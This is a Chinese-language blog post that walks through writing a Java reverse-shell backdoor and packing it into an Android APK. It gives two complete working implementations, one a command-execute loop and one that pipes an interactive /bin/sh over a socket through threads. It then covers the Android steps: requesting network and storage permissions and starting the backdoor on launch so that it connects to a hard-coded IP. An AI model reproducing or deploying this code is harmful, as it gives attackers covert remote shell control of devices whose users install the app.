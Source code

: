 ```yaml
---
title: JAVA 后门 shell_reverse_tcp 实现
date: 2020-12-25 00:00:00
categories:
- IOT
tags: arm
---
```


> 遇到情景是可以在android上安装任意apk，执行apk后有个反弹shell的效果。一般来说直接用msf就可以生成android后门，但不知为何在目标设备上无法正常使用，故决定自己编写一个简单的apk以完成反弹shell。最终实现两个纯JAVA版的shell_reverse_tcp，当然塞进apk也好使。开始自己完成了一个无法完全交互的shell，类似一句话木马那种伪tty。因为思路也是web的思路，执行->取结果字符串->发送结果字符串。后来参考msf的实现，人家是使用线程直接转发了启动shell的输入输出流到反弹的socket的输入输出流，不仅可以获得一个完全交互的shell，还省去了byte流转字符串的操作。这个其实就是和shellcode的思路一样了，类似dup socket的文件描述符到程序的输入输出流中。二者最重要的区别就是执行顺序上，因为自己对线程不熟，没有想到转发的过程其实是持续的，是伴随着我们对后门的操作的。也是因为自己的编程水平还停留面向过程的1234，不容易想到多个实体一起执行的情景，想的总是执行完第一步，然后第二步...

## 非真正交互

都是static方法，故使用的时候不需要new一个新的对象。因为是web思路，执行命令完成，读结果字符串，发结果字符串。所以执行流就是最好想的顺序执行，一步步往下走就行了，类似一句话：

- [JSP 一句话木马与防范](https://www.jianshu.com/p/19facabb5f29)
- [蚁剑改造计划之实现JSP一句话](https://xz.aliyun.com/t/7491)

```java
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.net.Socket;
import java.nio.charset.Charset;

public class Backdoor {
    public static String read_stream(InputStream in){
        try {
            StringBuilder sResultBuilder = new StringBuilder("");
            BufferedReader bufferedReader = new BufferedReader(
                    new InputStreamReader(in, Charset.defaultCharset()));
            String line = bufferedReader.readLine();
            if (line == null) return "";
            sResultBuilder.append(line);
            while (true) {
                line = bufferedReader.readLine();
                if (line == null)  break;
                else sResultBuilder.append('\n'+line);
            }
            return String.valueOf(sResultBuilder);
        }catch (IOException e) {
            e.printStackTrace();
        }
        return "";
    }

    public static String exec_cmd(String cmd){
        try {
            cmd = cmd.replaceAll("\n"," ") + " 2>&1 ;echo \n";
            String[] str = {"/bin/sh","-c",cmd};
            Process p = Runtime.getRuntime().exec(str);
            p.waitFor();
            return read_stream(p.getInputStream());
        }catch (IOException e) {
            e.printStackTrace();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
        return "";
    }

    public static void reverse_tcp(String ip,int port){
        try {
            Socket       socket   =   new Socket(ip,port);
            InputStream  in       =   socket.getInputStream();
            OutputStream out      =   socket.getOutputStream();
            out.write("[+] getshell\n".getBytes());
            byte[] b = new byte[4096];
            while(true){
                out.write("> ".getBytes());
                out.write(exec_cmd(new String(b,0,in.read(b))).getBytes());
            }
        } catch (IOException e) {
            e.printStackTrace();
        }catch (StringIndexOutOfBoundsException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        reverse_tcp("127.0.0.1",8888);
    }
}
```

测试用法，本机监听8888端口，然后执行：

```
➜  javac Backdoor.java && java Backdoor
```

## 真正交互

- [metasploit-payloads/java/javapayload/src/main/java/javapayload/stage/Shell.java ](https://github.com/rapid7/metasploit-payloads/blob/master/java/javapayload/src/main/java/javapayload/stage/Shell.java)
- [metasploit-payloads/java/javapayload/src/main/java/javapayload/stage/StreamForwarder.java](https://github.com/rapid7/metasploit-payloads/blob/master/java/javapayload/src/main/java/javapayload/stage/StreamForwarder.java)

首先想到JAVA自己有没有类似流转发的功能呢？搜索到[java io 流重定向标准输入和输出](https://juejin.cn/post/6844903480713281550)，即JAVA的标准输入输出错误流是可以重定向的，但是没有找到可以重定向任意流的函数。故想到能不能重定向进程的输入输出流之后然后直接execve系统调用把整个进程换成`/bin/sh`，就完全的shellcode反弹思路。但是看起来java好像不能直接执行系统调用，网上给出的解决办法是写JNI。

所以还是按照msf思路，自己动手写流的转发。看完思路自己默写的时候可犯难了，为啥没有输出呢？调试发现程序卡在了第一个转发那，恍然大悟，人家是转发工作是用线程完成的。所以这种思路就是不是顺序执行啦，而是有几个线程在不停的将反弹的socket的输入输出转发到启动的shell进程的输入输出上，所以这还不太像shellcode，dup文件描述符那么一劳永逸...为了避免拆分文件，最终使用JAVA的内部类完成线程的编写：

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Backdoor {

    class forward extends Thread{
        private InputStream src;
        private OutputStream dst;

        public forward(InputStream src,OutputStream dst){
            this.src = src; this.dst = dst;
        }
        public void run(){
            try {
                final byte[] buf = new byte[4096];
                int length;
                while ((length = this.src.read(buf)) != -1) {
                    if (this.dst != null) {
                        this.dst.write(buf, 0, length);
                        if (this.src.available() == 0) {
                            this.dst.flush();
                        }
                    }
                }
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

    public void reverse_tcp(String ip,int port){
        try {
            Socket       socket   =   new Socket(ip,port);
            InputStream  in       =   socket.getInputStream();
            OutputStream out      =   socket.getOutputStream();

            out.write("[+] getshell\n".getBytes());
            String[] str = {"/bin/sh","-i"};

            Process p = Runtime.getRuntime().exec(str);
            new forward(in,p.getOutputStream()).start();
            new forward(p.getInputStream(),out).start();
            new forward(p.getErrorStream(),out).start();
            p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        }catch (StringIndexOutOfBoundsException e) {
            e.printStackTrace();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
    }


   public static void main(String[] args) {
         new Backdoor().reverse_tcp("127.0.0.1",8888);
   }
}
```

测试用法，本机监听8888端口，然后执行：

```
➜  javac Backdoor.java && java Backdoor
```




## android中使用

**首先给APK加网络权限，千万别忘了**：

```xml
<uses-permission android:name="android.permission.INTERNET"/>
```

如果想让反弹的shell有权限干更多的事则需要多加权限，比如读写SD卡的权限：

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
```

然后将Backdoor这个类拷贝进工程中，并把`/bin/sh`换成`/system/bin/sh`，因为Andoid是禁止在主线程中使用网络操作，所以之后在程序目标处起一个新的线程即可：

```java
public class MainActivity extends Activity {

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        new Thread(runnable).start();
    }
    Runnable runnable = new Runnable(){
        @Override
        public void run() {
             new Backdoor().reverse_tcp("192.168.1.152",8888);
            //Backdoor.reverse_tcp("192.168.1.152",8888);
        }
    };
```

编译，安装，运行，即可反弹shell。